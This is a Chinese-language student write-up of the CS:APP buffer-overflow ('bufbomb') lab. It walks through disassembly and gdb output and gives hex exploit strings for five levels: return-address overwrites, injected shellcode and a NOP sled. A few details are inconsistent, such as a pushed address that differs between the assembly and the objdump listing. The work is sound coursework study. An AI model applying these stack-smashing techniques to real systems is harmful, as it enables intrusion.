# Lab 3 实验分析

通过阅读官方文档，bufbomb 在运行时会调用 getbuff 函数：
```c
/* Buffer size for getbuf */ 
#define NORMAL_BUFFER_SIZE 32
int getbuf() {
	char buf[NORMAL_BUFFER_SIZE];
	Gets(buf);
	return 1;
}
```
缓冲区大小为32。一旦输入的字符超出32个就会出现`segmentation fault`，导致程序出现异常。而目标就是让程序出现异常，执行一些常规以外的代码。

这个实验就是利用程序溢出的漏洞来破解几个 level。

其中文件夹下的其他两个二进制文件**hex2raw**和**makecookie**分别用于将十六进制的字符数据转换成普通的字符串用于输入，和生成一个独一无二的cookie用于辨识作者。

根据官方文档，如果将答案存储在 exploit.txt 中，使用命令

`cat exploit.txt | ./hex2raw | ./bufbomb -u bill`

可以直接将字符串输入到 bomb 中验证答案。一个更有效的方法是：
```
./hex2raw < exploit.txt > exploit-raw.txt 
./bufbomb -u bovik < exploit-raw.txt
```
文档中特别提醒到，每一个exploit.txt中的答案都应当以 0X0a 结尾，表示回车符结束输入。

在开始之前，使用`objdump -d bufbomb > bufbomb.s`来获取整个程序的汇编代码。

## Level 0: Candle

**目标：执行 smoke()，而不是让 getbuf() 返回 1。**

```c
void test() {
	int val;
	/* Put canary on stack to detect possible corruption */
	volatile int local = uniqueval();
	val = getbuf();
	    /* Check for corrupted stack */
	    if (local != uniqueval()) {
		printf("Sabotaged!: the stack has been corrupted\n");
	}
	else if (val == cookie) {
		printf("Boom!: getbuf returned 0x%x\n", val);
		validate(3);
	}
	else {
		printf("Dud: getbuf returned 0x%x\n", val);
	}
}
```

在`bufboms.s`的第 363 行找到了 smoke 的地址08048c18：



再研究 test 的部分汇编代码：
```s
 08048daa <test>:
 8048daa:	55                   	push   %ebp
 8048dab:	89 e5                	mov    %esp,%ebp
 8048dad:	53                   	push   %ebx
 8048dae:	83 ec 24             	sub    $0x24,%esp
 8048db1:	e8 da ff ff ff       	call   8048d90 <uniqueval>
 8048db6:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048db9:	e8 36 04 00 00       	call   80491f4 <getbuf>
 8048dbe:	89 c3                	mov    %eax,%ebx
 8048dc0:	e8 cb ff ff ff       	call   8048d90 <uniqueval>
```

 getbuff:
```s
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret  
```


 可以看到lea把buf的指针地址(-0x28(%ebp))传给了Gets()，0x28也就是十进制的40个字节。而ebp占了4个字节，buf距离getbuff的返回地址还有44个字节。
 
 | 返回地址      | 需要修改的地址     |
 | ------------- | ------------------ |
 | ebp           | - 占用4字节        |
 | ...           | ...                |
 | ebp - 40 字节 | buf 数组的初始地址 |
 | ...           | ...                |
 | ebp - 0x38    | esp，栈帧首地址    |

 从文档中得知：

 

 Gets函数不验证是否超出了 `NORMAL_BUFFER_SIZE`，所以超出字符的就会覆盖掉内存。
 
 那么只要在buf开始处随便填入44字节（0a除外，会终止输入），然后在后面加入smoke的地址，覆盖掉栈中的返回地址即可。

另外需要注意的是 x86 机器为小端法机器，最低有效字节在内存的前面，所以在 exploit.txt 中填入如下答案即可：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08 0a
```


## Level 1: Sparkler

**目标：调用 fizz(val) 函数，并将自己的 cookies 传递为参数。**

研究 fizz 的汇编代码：
```s
08048c42 <fizz>:
 8048c42:	55                   	push   %ebp
 8048c43:	89 e5                	mov    %esp,%ebp
 8048c45:	83 ec 18             	sub    $0x18,%esp
    # ebp + 8 就是参数 val
 8048c48:	8b 45 08             	mov    0x8(%ebp),%eax
 8048c4b:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
 8048c51:	75 26                	jne    8048c79 <fizz+0x37>
 8048c53:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048c57:	c7 44 24 04 ee a4 04 	movl   $0x804a4ee,0x4(%esp)
 8048c5e:	08 
 8048c5f:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c66:	e8 55 fd ff ff       	call   80489c0 <__printf_chk@plt>
 8048c6b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c72:	e8 04 07 00 00       	call   804937b <validate>
 8048c77:	eb 18                	jmp    8048c91 <fizz+0x4f>
 8048c79:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048c7d:	c7 44 24 04 40 a3 04 	movl   $0x804a340,0x4(%esp)
 8048c84:	08 
 8048c85:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c8c:	e8 2f fd ff ff       	call   80489c0 <__printf_chk@plt>
 8048c91:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048c98:	e8 63 fc ff ff       	call   8048900 <exit@plt>
 ```
和第一个阶段相比，除了破坏栈帧调用函数以外，还需要构造一个参数。我这里使用的 cookies 为 0x362d5a70。

在会变函数重能够发现在和 0x804d108 对比，推测这里就是储存的我们的 cookie。打印出来后发现的确是cookie：


后面的逻辑大概就是判断 val 和 cookie 是否相等。所以这里就需要在栈帧构造出下列结构：

| 地址          | 解释                 |
| ------------- | -------------------- |
| ebp + 8 字节  | val                  |
| 返回地址      | 应当为 fizz 的首地址 |
| ebp           | - 占用4字节          |
| ...           | ...                  |
| ebp - 40 字节 | buf 数组的初始地址   |
| ...           | ...                  |
| ebp - 0x38    | esp，栈帧首地址      |

 所以这里应该注入一个 52 字节，前 44 字节为任意值，然后注入 4 字节，为 fizz 函数的首地址 0x08048c42 ，接着离第一个参数开始还有 4 个字节，随意填充，再注入 4 个字节，为 cookies 0x362d5a70. 构造出的答案如下：

 ```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 70 5a 2d 36 0a
```


## Level 2: Firecracker

**目标：含有一个 bang 函数，和一个全局变量 global_value，需要注入机器代码，修改 global_value 为 cookies 的值，再调用 bang 函数。**

从文档中获得的 bang 代码如下。

```c
int global_value = 0;

void bang(int val) {
	if (global_value == cookie) {
		printf("Bang!: You set global_value to 0x%x\n", global_value);
		validate(2);
	} else
		printf("Misfire: global_value = 0x%x\n", global_value);
	exit(0);
}
```

研究 bang 汇编语言的前几行：
```s
08048c9d <bang>:
8048c9d:	55                   	push   %ebp
8048c9e:	89 e5                	mov    %esp,%ebp
8048ca0:	83 ec 18             	sub    $0x18,%esp
8048ca3:	a1 00 d1 04 08       	mov    0x804d100,%eax
8048ca8:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
8048cae:	75 26                	jne    8048cd6 <bang+0x39>
8048cb0:	89 44 24 08          	mov    %eax,0x8(%esp)
8048cb4:	c7 44 24 04 60 a3 04 	movl   $0x804a360,0x4(%esp)
```

在这里可以看到程序在将 eax 的值和 `0x804d100` 作比较，推测 globla_value 存储的位置就是在 `0x804d100`。后面又一次出现了 `0x804d108`，根据前面的分析存储的是 cookies  的值。



所以为了修改变量值，需要将汇编代码注入到程序当中。文档提示我们不要使用 jmp 和 call，所以为了执行 bang 函数，要将 bang 函数的地址 push 进栈中，然后使用 ret 命令。



汇编代码如下：

```s
# 改变 global_value
movl $0x362d5a70, 0x804d100
# 将 bang 函数的首地址压入栈
pushl $0x08048c9d
ret
```
接下来就是将汇编语言转换成十六进制的机器代码了。使用`gcc -m32 -c` 和 `objdump -d`可以得到转换之后的文件：

```s
00000000 <.text>:
   0:	c7 05 00 d1 04 08 70 	movl   $0x362d5a70,0x804d100
   7:	5a 2d 36 
   a:	68 9d 8c 04 08       	push   $0x8048c9d
   f:	c3                   	ret    
```
那么所有的字节就是 `c7 05 00 d1 04 08 70 5a 2d 36 68 9d 8c 04 08 c3`。接下来回到 getbuff 的汇编代码：

```s
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret  
```

应当构造如下结构：

| 地址          | 解释                                   |
| ------------- | -------------------------------------- |
| 返回地址      | 应当覆盖为我们输入缓冲区的首地址       |
| ebp           | - 占用4字节                            |
| ...           | ...                                    |
| ebp - 40 字节 | buf 数组的初始地址，从这里开始注入代码 |
| ...           | ...                                    |
| ebp - 0x38    | esp，栈帧首地址                        |

在程序运行到 lea 语句之后，使用 `info registers` 获得 eax 的地址为 0x556830e8。注意到这里 eax 里的地址也是缓冲区的首地址。所以需要先在缓冲区的前面几个字节就注入汇编代码，然后在 44 字节之后注入缓冲区的起点地址，让程序跳转回来。

结合以上信息，构造下列答案：

```
c7 05 00 d1 04 08 70 5a
2d 36 68 9d 8c 04 08 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 e8 30 68 55 0a
```
成功通过。



## Level 3: Dynamite

**目标：这个 Level 要求我们注入一段能够修改 getbuf 返回值的代码，返回值从 1 改成 cookie 值，此外还需要还原所有破坏，继续运行 test 的剩下部分。**

同样回到 getbuff 的汇编代码：

```s
080491f4 <getbuf>:
80491f4:	55                   	push   %ebp
80491f5:	89 e5                	mov    %esp,%ebp
80491f7:	83 ec 38             	sub    $0x38,%esp
80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
80491fd:	89 04 24             	mov    %eax,(%esp)
8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
8049205:	b8 01 00 00 00       	mov    $0x1,%eax
804920a:	c9                   	leave  
804920b:	c3                   	ret  
```
注意到在 Gets 之后，eax 会被修改为 1，所以在正常情况下函数总会返回 1。而为了改变这一行需要我们手动修改 eax 为 coockie，所以需要注入一段代码，首先手动设置 eax 为 cookie，然后将返回地址设置为 test 在调用了 getbuf 之后的下一行 0x08048dbe

结合 test 的前几行代码：
```s
 08048daa <test>:
 8048daa:	55                   	push   %ebp
 8048dab:	89 e5                	mov    %esp,%ebp
 8048dad:	53                   	push   %ebx
 8048dae:	83 ec 24             	sub    $0x24,%esp
 8048db1:	e8 da ff ff ff       	call   8048d90 <uniqueval>
 8048db6:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048db9:	e8 36 04 00 00       	call   80491f4 <getbuf>
 8048dbe:	89 c3                	mov    %eax,%ebx
 8048dc0:	e8 cb ff ff ff       	call   8048d90 <uniqueval>
```

所以应当构造 Gets 的栈帧如下：

| 地址          | 解释                                              |
| ------------- | ------------------------------------------------- |
| 返回地址      | 设置成缓冲区的首地址                              |
| ebp           | 占用4字节                                         |
| ...           | ...                                               |
| ebp - 40 字节 | buf 数组的初始地址，从这里开始注入修改 eax 的代码 |
| ...           | ...                                               |
| ebp - 0x38    | esp，栈帧首地址                                   |

在最开始，同样需要注入一句汇编语句：

```s
movl $0x362d5a70, %eax
push $0x0804920a
ret
```
使用`gcc -m32 -c` 和 `objdump -d`可以得到机器代码：

```s
00000000 <.text>:
   0:	b8 70 5a 2d 36       	mov    $0x362d5a70,%eax
   5:	68 be 8d 04 08       	push   $0x8048dbe
   a:	c3                   	ret     
```

得到需要注入的机器代码：`b8 70 5a 2d 36 68 be 8d 04 08 c3`

为了防止对栈的破坏，%ebp 是被调用者保存寄存器，是 test 在调用 getbuf 之后，getbuf 首先就就压进了栈帧里。同时为了使程序继续运行，需要保证 ebp 不被破坏。使用 gdb，在 getbuf 的第一行 `0x080491f4 ` 处打下断点，研究此时 %ebp 的值。



得到 ebp 的值是 `0x55683140`。所以需要注入的时候在40 - 44 字节注入保存好的 ebp 值，可以防止 ebp 的值被破坏。

总的逻辑就是先注入一段可以修改 eax 信息，并将 test 调用完 getbuf 之后的下一句代码 push 进栈帧的机器代码，接着在后面补充原先的寄存器状态，最后在将返回地址设置为缓冲区的开头部分，执行已经注入的代码。

结合以上信息构造答案：

```
b8 70 5a 2d 36 68 be 8d  
04 08 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
40 31 68 55 e8 30 68 55 0a
```


## Level 4: Nitroglycerin

**目标：使用 `-n` 命令运行 bufbomb，程序会开启栈随机化来组织攻击代码。需要对抗栈随机化，实现把 getbufn 的返回值修改成 cookie 值并避免对栈的破坏。**

和前面不同的是，这一个阶段由于使用的是 getbufn 和 testn 函数，并且需要将一个相同的字符串输入五次。所以需要使用命令

`cat exploit.txt | ./hex2raw -n | ./bufbomb -n -u bill`

来输入字符。同时，文档也指出在 getbufn 中有`#define KABOOM_BUFFER_SIZE 512`，所以缓冲区大小为 512.

这次研究 getbufn 的汇编代码：

```s
(gdb) disas
Dump of assembler code for function getbufn:
   0x0804920c <+0>:	push   %ebp
   0x0804920d <+1>:	mov    %esp,%ebp
    # esp 减去了 536 个字节
   0x0804920f <+3>:	sub    $0x218,%esp
    # buf 的首地址空间离 ebp 有 520 个字节
=> 0x08049215 <+9>:	lea    -0x208(%ebp),%eax
   0x0804921b <+15>:	mov    %eax,(%esp)
   0x0804921e <+18>:	call   0x8048cfa <Gets>
   0x08049223 <+23>:	mov    $0x1,%eax
   0x08049228 <+28>:	leave  
   0x08049229 <+29>:	ret    
End of assembler dump.
```

在这一阶段，getbufn 会调用 5 次，每次的储存的 ebp 都不一样，官方文档表示这个差值会在 +- 240的样子：



接下来使用 gdb，在 getbufn 打下断点，连续 5 次查看 %ebp 的值，可以得到这五次 ebp 的值分别是在：

| No  | p/x $ebp   | p/x $ebp - 0x208 |
| --- | ---------- | ---------------- |
| 1   | 0x55683110 | 0x55682f08       |
| 2   | 0x556830b0 | 0x55682ea8       |
| 3   | 0x55683100 | 0x55682ef8       |
| 4   | 0x55683110 | 0x55682f08       |
| 5   | 0x55683180 | 0x55682f78       |

对应的，buf 的起始地址就是每一次记的 ebp 减去 208，也就是 520 字节。

所以每一次的地址是无法确认的。英文文档中介绍了可以使用 `nop sled` 的方法来解决这一问题。参考 CSAPP 教材中的介绍：



所以如果在注入的攻击代码的前面全部填充为 nop 指令（nop 指令的机器代码为 0x90），只要最后的返回地址落在了这一大堆 nop 指令中的任意一个，程序就会一直 nop 下去，直到运行到我们注入的汇编代码，而不会因为跳转到了我们注入到的有效代码中间某个位置而出现意想不到的结果。

因此，在注入代码的时候，有效的机器代码应当尽可能地往后放，在前面都填上 nop，也就是 0x90。

接下来需要处理的问题是注入并覆盖 ebp 后，把正确的 esp 还原回去。研究 testn 的部分汇编代码：

```s
Dump of assembler code for function testn:
   0x08048e26 <+0>:	push   %ebp
   0x08048e27 <+1>:	mov    %esp,%ebp
   0x08048e29 <+3>:	push   %ebx
   0x08048e2a <+4>:	sub    $0x24,%esp
   0x08048e2d <+7>:	call   0x8048d90 <uniqueval>
   0x08048e32 <+12>:	mov    %eax,-0xc(%ebp)
   0x08048e35 <+15>:	call   0x804920c <getbufn>
   0x08048e3a <+20>:	mov    %eax,%ebx
   0x08048e3c <+22>:	call   0x8048d90 <uniqueval>
```

在每一次调用了 getbufn 之后，ebp 的值将会被 push 进去。这个 ebp 值是等于 testn 被调用的时候 esp 存储的值的。esp 先由于push ebx而减去了4，再手动减去了0x24，所以这个时候 exp + 0x28 的值就是传入了 getbufn 开始的时候 ebp 的值。

所以构造出来的汇编代码如下：
```s
lea 0x28(%esp), %ebp
mov $0x362d5a70, %eax
push $0x08048e3a
ret
```
得到机器代码：
```
00000000 <.text>:
   0:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   4:	b8 70 5a 2d 36       	mov    $0x362d5a70,%eax
   9:	68 3a 8e 04 08       	push   $0x8048e3a
   e:	c3                   	ret    
  ```
整理得 `8d 6c 24 28 b8 70 5a 2d 36 68 3a 8e 04 08 c3`

根据以上分析应构造的栈帧结构如下：

| 地址           | 解释                                                     |
| -------------- | -------------------------------------------------------- |
| 返回地址       | 设置成几个缓冲区首地址的最小值，然后使用nop sled运行下去 |
| ebp            | 占用4字节，会被破坏，所以要还原                          |
| ...            | ...                                                      |
| ebp - 520 字节 | buf 数组的初始地址，从这里开始注入代码                   |
| ...            | ...                                                      |
| ebp - 0x218    | esp，栈帧首地址                                          |

结合得到的 5 次 buf 首地址，应该让程序跳转到地址最高的一次，然后一路 nop sled。最大的地址为 `0x55682f78`，应当填入第 524 字节。所以构造答案如下：

```
/* 505 字节的 nop */
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90
/* 注入的代码 */
8d 6c 24 28 b8 70 5a 2d 36 68 3a 8e 04 08 c3
/* 覆盖 ebp */
00 00 00 00
/* 破坏返回地址 */
78 2f 68 55
```

经验证五次结果均满足要求：


*The End.*

---

> 太可怕了，又是凌晨三点了。
> 
> 2019.5.7
